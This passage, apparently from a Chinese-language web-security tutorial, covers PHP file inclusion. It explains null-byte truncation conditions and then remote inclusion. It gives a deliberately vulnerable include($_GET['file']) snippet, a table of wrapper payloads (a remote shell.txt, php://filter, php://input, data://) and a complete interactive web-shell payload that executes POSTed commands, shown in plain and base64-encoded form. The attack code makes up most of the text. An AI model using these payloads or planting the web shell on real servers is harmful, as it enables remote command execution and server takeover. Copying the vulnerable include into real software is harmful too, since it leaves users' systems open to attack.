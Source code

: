 *   php版本小于5.3.4 详情关注 CVE-2006-7243
*   agic\_quotes\_gpc=OFF

当把magic\_quotes\_gpc打开, `%00`被转义成了`\0`，不再具有截断功能。原因是：当打开magic\_quotes\_gpc时，所有的 `'（单引号）`，`"（双引号）`，`\（反斜线）`和 `NULL字符（%00）`都会被自动加上一个`反斜线`进行转义。还有很多函数有类似的作用 如：`addslashes()`、`mysql_escape_string()`、`mysql_real_escape_string()`等

5\. 远程包含
--------

条件: `allow_url_include=On`

```
<?php
$file = $_GET['file'];
include($file);
?> 
```

| 协议 | 附加条件 | php | 样例 (file=) |
| --- | --- | --- | --- |
| http\[s\] | allow\_url\_fopen=On |  | [http://ip/shell.txt](http://ip/shell.txt) |
| ftp | allow\_url\_fopen=On |  | ftp://ip/shell.txt |
| php://filter |  | \>=5.0 | php://filter/convert.base64-encode/resource=index.php |
| php://input |  |  | php://input POST: <?php echo 111;?> |
| data:// |  | \>=5.2 | data://text/plain;base64,MTE= |

> “zlib://”和“ogg://”等方式绕过 远程文件包含(RFI)

### 5.1. data://

Streams can be used with functions such as file\_get\_contents, fopen, include and require etc. and this is where the danger of Remote and Local file inclusion occur

> php>=5.2

#### 5.1.1. 样例

```
# base64 decode is 'I love PHP\n'
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');

// URL + Base64 , 隐藏特殊字符 '/'
index.php?file=data://text/plain;base64,PD8gcGhwaW5mbygpOyBkaWUoKTs%2fPg== 
```

#### 5.1.2. 可交互shell

```
# GUI command shell.

# PHP Payload
<form action="<?=$_SERVER['REQUEST_URI']?>" method="POST"><input type="text" name="x" value="<?=htmlentities($_POST['x'])?>"><input type="submit" value="cmd"></form><pre><? echo `{$_POST['x']}`; ?></pre><? die(); ?>

# Base64 encoded payload

PGZvcm0gYWN0aW9uPSI8Pz0kX1NFUlZFUlsnUkVRVUVTVF9VUkknXT8+IiBtZXRob2Q9IlBPU1QiPjxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ4IiB2YWx1ZT0iPD89aHRtbGVudGl0aWVzKCRfUE9TVFsneCddKT8+Ij48aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iY21kIj48L2Zvcm0+PHByZT48PyAKZWNobyBgeyRfUE9TVFsneCddfWA7ID8+PC9wcmU+PD8gZGllKCk7ID8+Cgo=

# Base64 + URL encoded payload
```